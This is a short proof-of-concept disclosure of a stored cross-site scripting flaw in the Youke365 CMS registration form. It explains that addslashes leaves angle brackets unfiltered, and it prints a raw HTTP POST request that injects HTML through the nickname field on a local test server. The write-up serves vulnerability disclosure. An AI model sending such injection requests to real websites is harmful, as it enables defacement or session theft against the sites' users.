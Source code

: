 ## Youke365 XSS 

## PoC by britzlieg

### vulnerability code:

In file  `app/member/controller/register.php`, line 51:

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/c1.jpg)

the `user_nickname` parameter is filtered by php function `addslashes`. As we all know that `addslashes` can not filter the `<` and `>`, so it can be exploited by using specail html characters.

the speacial html characters will display in the template html:

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/c2.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/c3.jpg)


Here is the normal register action:

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/n1.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/n2.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/n3.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/n4.jpg)

Here is the vulnerable register action:

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/x1.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/x2.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/x3.jpg)

![](https://rawcdn.githack.com/britzlieg/POC/master/res/youke365_1_4_6/x4.jpg)


### POC:

```
POST /member/register.html HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://127.0.0.1:9000
DNT: 1
Connection: close
Referer: http://127.0.0.1:9000/member/register.html
Cookie: PHPSESSID=g3jn9v9ivo49pc7bbv4d01p57j; UM_distinctid=17332dfc80e1db-08379b070a6703-4c302273-384000-17332dfc810cd0; CNZZDATA1257188920=362799075-1594281266-http%253A%252F%252F127.0.0.1%253A9000%252F%7C1594281266
Upgrade-Insecure-Requests: 1

nick_name=<a>test2</a>&email=abcd%40qq.com&pass=123456&code=4322&action=register
```